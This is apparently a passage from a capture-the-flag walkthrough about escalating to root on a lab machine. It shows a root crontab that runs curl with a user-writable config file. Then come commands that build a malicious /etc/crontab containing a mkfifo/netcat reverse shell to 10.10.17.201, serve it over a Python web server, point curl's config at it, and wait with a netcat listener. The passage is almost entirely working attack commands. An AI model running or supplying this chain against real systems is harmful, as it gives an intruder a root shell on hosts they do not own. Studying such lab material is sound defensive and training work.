 ```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.1F3WTb/crontab installed on Tue May 22 19:02:51 2018)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

##### Create a malicious crontab

```bash
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.201 1234 >/tmp/f' >> crontab
```

##### Serve malicious crontab

```bash
python	-m SimpleHTTPServer 80	// Python
python3	-m http.server 80		// Python3
```

input:

```bash
url = "http://10.10.17.201/crontab"
output = "/etc/crontab"
```

##### Listen for connection

	rlwrap nc -lvnp 1234
